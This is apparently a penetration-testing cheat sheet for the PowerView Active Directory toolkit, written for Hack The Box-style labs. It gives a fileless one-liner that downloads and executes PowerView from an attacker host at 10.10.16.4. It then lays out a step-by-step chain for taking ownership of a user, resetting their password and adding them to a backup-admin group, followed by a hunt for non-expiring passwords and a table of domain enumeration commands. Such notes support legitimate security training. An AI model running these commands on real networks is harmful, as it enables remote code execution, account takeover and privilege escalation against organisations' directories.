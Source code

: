 # PowerView.ps1

## Fileless (Running PS1 without saving to disk)
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
```

## Take Ownership over User
- Prerequisite is to have PowerView loaded

```
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

## Reset Password
- Prerequisite is to have PowerView loaded
- Take ownership of user

```
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
```

## Build New Credential
```
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
```

## Add user to group
## Reset Password
- Prerequisite is to have PowerView loaded
- Take ownership of user
- Build the $cred
```
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
```

## Check AD Groups with PowerView
```
Get-DomainGroup -MemberIdentity Herman | select SamAccountName
```

## All Steps in Order
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
Get-DomainGroup -MemberIdentity Herman | select SamAccountName
```

## Get UserAccountControl for Domain Users
```
Import-Module .\PowerView.ps1 OR . .\PowerView.ps1
Get-DomainUser * -AdminCount | select samaccountname,useraccountcontrol
```

## DSQuery (find passwords that dont expire)
```
dsquery user "OU=Employees,DC=inlanefreight,DC=local" -name * -scope subtree -limit 0 | dsget user -samid -pwdneverexpires | findstr /V no
```

## PowerView Most Used Commands 
[Additional Reference: PowerShell and PowerView Modules](../Powershell%20AD%20%26%20Powerview%20Modules/README.md)

| Command | Description | 
| ---------------------------- | ---------------------------- |
| Export-PowerViewCSV | Append results to a CSV file | 
| ConvertTo-SID | Convert a user or group NAME to SID value | 
| Get-DomainSPNTicket | Requests the Kerberos ticket for a specified Service Principal Name (SPN) account | 
| Get-Domain | Returns the AD object for the current or specific domain | 
| Get-DomainController | Return a list of Domain Controllers for the specified domain | 
| Get-DomainUser | Will return all users or specific user objects in AD | 
| Get-DomainComputer | Will return all computers or specific computer objects in AD | 
| Get-DomainGroup | Will return all groups or specific group objects in AD | 
| Get-DomainOU | Search for all or specific OU in AD | 
| Find-InterestingDomainAcl | Finds object ACLs in the domain with modification rights set to non-built in objects | 
| Get-DomainGroupMember | Will return the members of a specific domain group | 
| Get-DomainFileServer | Returns a list of servers likely functioning as file servers | 
| Get-DomainDFSShare | Returns a list of all distributed file systems for the current (or specified) domain | 
| Get-DomainGPO | Will return all GPOs or specific GPO objects in AD | 
| Get-DomainPolicy | Returns the default domain policy or the domain controller policy for the current domain | 
| Get-NetlocalGroup | Enumerates local groups on the local or a remote machine | 
| Get-NetLocalGroupMember | Enumerates member of a specific local group | 
| Get-NetShare | Returns open shares on the local (or remote) machine | 
| Get-NetSession | Will return session information for the local (or a remote) machine | 
| Test-AdminAccess | Tests if the current user has admin access to the local or a remote machine | 
| Find-DomainUserLocation | Finds machines where specific users are logged in | 
| Find-DomainShare | Finds reachable shares on domain machines | 
| Find-InterestingDomainShareFile | Searches for files matching specific criteria on readable shares in the domain | 
| Find-LocalAdminAccess | Find machines on the local domain where the current user has local admin access | 
| Get-DomainTrust | Returns domain trusts for the current domain or a specified domain | 
| Get-ForestTrust | Returns all forest trusts for the current forest or a specified forest | 
| Get-DomainForeignUser | Enumerates users who are in groups outside of the user's domain | 
| Get-DomainForeignGroupMember | Enumerates groups with users outside of the group's domain and returns each foreign member | 
| Get-DomainTrustMapping | Will enumerate all trusts for the current domain and any others seen | 